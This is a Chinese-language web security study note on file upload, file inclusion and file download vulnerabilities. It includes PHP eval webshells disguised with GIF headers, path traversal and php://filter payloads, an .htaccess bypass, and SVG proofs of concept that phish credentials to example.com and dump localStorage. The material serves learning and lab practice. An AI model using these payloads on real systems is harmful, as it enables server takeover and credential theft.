

# File Vuln


## File Upload

文件上传功能在web应用系统很常见，比如很多网站注册的时候需要上传头像、上传附件等等。当用户点击上传按钮后，后台会对上传的文件进行判断 比如是否是指定的类型、后缀名、大小等等，然后将其按照设计的格式进行重命名后存储在指定的目录。 如果说后台对上传的文件没有进行任何的安全判断或者判断条件不够严谨，则攻击着可能会上传一些恶意的文件，比如一句话木马，从而导致后台服务器被webshell。
所以，在设计文件上传功能时，一定要对传进来的文件进行严格的安全考虑。比如：

- 验证文件类型、后缀名、大小;
- 验证文件的上传方式;
- 对文件进行一定复杂的重命名;
- 不要暴露文件上传后的路径;
- 等等...

---

### php文件上传

除了`.php`之外，服务端有可能也会将以下扩展名当作PHP文件解析执行：
- `.phtml`、`.phps`、`.php3`、`.php4`、`.php5`、`.pht`

- **/etc/apache2/mods-enabled/php5.conf**: `<FilesMatch ".+\.ph(p[345]?|t|tml)$">`

---

**.htaccess绕过**

1. `.htaccess`是Apache中的分布式配置文件，可以针对某个指定的目录单独进行配置。
- 通过`.htaccess`文件，将upload目录设置为可以将图片文件当作php文件去解析执行。

1. `.htaccess`文件有两种利用方式：

- `SetHandler application/x-httpd-php` 把所有的文件当做php文件来解析
- `AddType application/x-httpd-php .jpg` 把jpg文件当作php文件解析

3. `.htaccess`能生效的前提条件
- `AllowOverride All`，即允许`.htaccess`的局部配置覆盖主配置文件中的全局配置。
- 在低于**2.3.8**版本的**Apache**中，该项设置默认为All，但在**2.3.9**及更高版本中，则默认为None。

---

<span style="font-size: 23px;">**代码示例**</span>

**前端代码**
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Internal JS</title>
</head>
<body>
    <form action="upload_file.php" method="post" enctype="multipart/form-data">
        <p>FileName:<input type="file" name="file"/></p>
        <input type="submit" name="submit" value="submit" />
    </form>
</body>
</html>
```

**php代码**
```php
<?php	
# 上传文件信息
var_dump($_FILES);
echo "<br/>";
echo "FileName:".$_FILES['file']["name"]."<br/>";
echo "tmpName:".$_FILES["file"]["tmp_name"]."<br/>";
echo "type: ".$_FILES["file"]["type"]."<br/>";
echo "size: ".$_FILES["file"]["size"]."<br/>";

# 将上传的临时文件移动到指定的目录中
$tmpName = $_FILES['file']["tmp_name"];
$path = "uploads/".$_FILES["file"]["name"];
if (move_uploaded_file($tmpName, $path)) {
	echo "successful uploaded<br/>";
	echo "stored in $path";
}
?>	
```

### SVG与文件上传

SVG（**Scalable Vector Graphics**，可缩放矢量图形）是一种基于 XML 的矢量图像格式，用于描述二维图形。它于 2001 年 由 W3C 发布第一版标准，HTML5 将其作为原生支持的一部分纳入。



<span style="font-size: 19px;">**PoC**</span>

**靶场：bWAPP_Unrestricted File Upload**

*rect.svg*
```html
<?xml version="1.0" standalone="no"?>
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
    <rect width="100" height="100" />
    <script>
        var isChromium = window.chrome,
        vendorName = window.navigator.vendor,
        isOpera = window.navigator.userAgent.indexOf("OPR") > -1;
        if(isChromium !== null &amp;&amp; isChromium !== undefined &amp;&amp; vendorName === "Google Inc." &amp;&amp; isOpera == false)
        {
            var user = prompt("检测到您正在访问限制内容,请输入您的帐户以登陆帐号");
            var pass = prompt("请输入您的密码");
            window.location = "http://www.example.com?user=" + user + "&amp;pass=" + pass;
        }
    </script>
</svg>
```
*localstorage.svg*
```html
<?xml version="1.0" standalone="no"?>
<svg version="1.1" xmlns="http://www.w3.org/2000/svg" >
  <rect width="100" height="100" />
  <script>
    if(localStorage.length)
    {
        for(key in localStorage)
        {
            if(localStorage.getItem(key))
            {
                console.log(key) ;
                console.log(localStorage.getItem(key)) ;
            }
        }
    }
  </script>
</svg>
```

---

## File Inclusion

**文件包含**
- 程序开发人员通常会把可重复使用的函数写入到单个文件中，在使用某些函数时，直接调用此文件，而无需再次编写代码，这种调用文件的过程就称为文件包含。

### php文件包含

**payload**

*shell.phtml*
```php
GIF89a<?php @eval($_REQUEST['pass']);echo "changed";?>
```
```php
GIF89a<script language="php"> @eval($_REQUEST['pass']);echo "changed"</script>
```
*url*
```bash
?file=../../../../../../../etc/passwd
```
*php流filter*
```bash
?file=php://filter/read=convert.base64-encode/resource=flag.php
```
---

PHP提供了四个文件包含函数
- `require()`，如果被包含的文件不存在，会产生错误，并停止脚本运行。
- `include()`，如果被包含的文件不存在，只会产生警告，脚本将继续运行。
- `require_once()`，与`require()`类似，区别是如果文件中的代码已经被包含，则不会再次包含。
- `include_once()`，与`include()`类似，区别是如果文件中的代码已经被包含，则不会再次包含。

```php
<?php
    show_source(__FILE__); //显示源码
    include("flag.php");
    $name = $_GET['name'];
    if ($name == "admin") {
        echo $flag;
    }
?>
```

**文件包含漏洞的成因**

大部分Web漏洞的形成原因都是由于没有对用户输入的数据进行严格的安全处理
- 程序开发人员为了让代码更加灵活，通常会将被包含的文件设置为变量来动态调用。
- 如果对这些文件没有进行严格过滤，那么就很可能会形成文件包含漏洞。

```php
<?php
    $filename = $_GET['file'];
    include($filename);
?>
```

<span style="font-size: 23px;">**exploit**</span>

1. **读取文件内容**
- 通过文件包含可以读取网站主目录之外的文件内容。
- 如果网站不允许使用绝对路径，可以使用“`../../../../../../../etc/passwd`”这种相对路径的表示方式。
- “`../`”代表上级目录，使用足够多的“`../`”就可以退到系统根目录，而且当退到系统根目录之后，“`../`”的数量就没有限制了。

```bash
http://xxx/?file=../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/ash
...
```
2. **执行非PHP文件中的程序代码**

- PHP中的文件包含函数可以包含任意类型的文件，比如.`jpg`、`.txt`、`.xxx`……
- 只要文件内容中有符合PHP语法规范的代码，那么这些代码就可以被正常执行。

<span style="font-size: 23px;">**文件包含配合文件上传**</span>

**修改文件头**

- 大多数文件在头部都会有一些固定信息，用于标识文件的类型。

| 文件类型 | 文件头 (Hex) |
| :--------: | :------ |
| JPEG (jpg) | `FF D8 FF E0` |
| PNG (png) | `89 50 4E 47` |
| GIF (gif) | `47 49 46 38` |
| TIFF (tif) | `49 49 2A 00` |
| Windows Bitmap (bmp) | `42 4D C0 01` |
| ZIP Archive (zip) | 504B0304 |
| RAR Archive (rar) | 52617221 |
| Adobe Photoshop (psd) | 38425053 |
| Rich Text Format (rtf) | 7B5C727466 |
| XML (xml) | 3C3F786D6C |
| HTML (html) | 68746D6C3E |
| Adobe Acrobat (pdf) | 255044462D312E |
| Wave (wav) | 57415645 |
| pcap (pcap) | 4D3C2B1A |


**制作可执行图片**
- 准备一张正常的图片`real.png`，通过执行**Windows**系统中的`copy`命令，以二进制的方式将`shell.php`中的代码追加到图片的尾部，生成新的图片`shell.jpg`.

```cmd
copy real.jpg /b + shell.php /a shell.jpg
```
<span style="font-size: 23px;">**PHP的代码标记**</span> 

有些网站通过检测文件内容中是否出现了PHP代码标记从而判断是否是WebShell

- 标准代码标记：`<?php …… ?>`
- JS风格的代码标记：`<script language="php">……</script>`
- 短标记：`<?= …… ?>`

在上传时有些常规检测，不论网站是否采用了这些检测方式，都可以直接修改：

- 修改MIME类型
- 插入`GIF89a`的文件头
- 采用其它标记组合
  
<span style="font-size: 23px;">**利用PHP伪协议读取文件**</span>

**什么是伪协议**

- 在`include()`函数中通常都是以文件路径作为参数来指定所要包含的文件，除了文件路径之外，
在PHP中还可以通过数据流来指定要包含的文件。
- 指定数据流通常需要使用类似于“`php://`”或“`data://`”的形式，这与URL中的“`http://`”或
“`https://`” 非常类似，所以可以将其简单理解成是一种专用于PHP的协议，通常称之为伪协议。

PHP伪协议能否发挥功能，与PHP配置文件`php.ini`里的两个重要参数息息相关：
- `allow_url_fopen`，默认值是ON，允许url里的伪协议访问文件。
- `allow_url_include`：默认值是OFF，不允许url里的伪协议包含文件。

**php://伪协议**

通过`php://`伪协议可以指定以数据流的方式去包含文件
- 结合**filter**功能，可以把文件中的数据全部进行**Base64**编码，这样`include()`函数就不会去执行这
些代码了。
通过`php://`伪协议并结合**filter**功能是读取PHP源码的标准用法，通常采用如下格式：
- `php://filter/convert.base64-encode/resource=xxx`
- `php://filter/read=convert.base64-encode/resource=xxx`

### 远程文件包含

**远程文件包含**（Remote File Inclusion，简称 **RFI**）是一种常见的 Web 应用程序漏洞。

它发生在 Web 应用程序（如 PHP、JSP、ASP.NET 等网站）在引入或包含（Include）外部文件时，**没有对用户输入的文件路径进行严格的过滤或限制**，导致攻击者可以传入一个指向远程恶意服务器的 URL，从而让服务器下载并执行该远程恶意文件。

- CORS（跨源资源共享）为远程文件包含提供了可能， 只要建立起源之间的信任关系，就可以触发远程文件包含。
---

## File Download

文件下载功能在很多web系统上都会出现，一般我们当点击下载链接，便会向后台发送一个下载请求，一般这个请求会包含一个需要下载的文件名称，后台在收到请求后 会开始执行下载代码，将该文件名对应的文件response给浏览器，从而完成下载。 如果后台在收到请求的文件名后,将其直接拼进下载文件的路径中而不对其进行安全判断的话，则可能会引发不安全的文件下载漏洞。

此时如果 攻击者提交的不是一个程序预期的的文件名，而是一个精心构造的路径(比如`../../../etc/passwd`),则很有可能会直接将该指定的文件下载下来。 从而导致后台敏感信息(密码文件、源代码等)被下载。
所以，在设计文件下载功能时，如果下载的目标文件是由前端传进来的，则一定要对传进来的文件进行安全考虑。 切记：所有与前端交互的数据都是不安全的，不能掉以轻心！


---


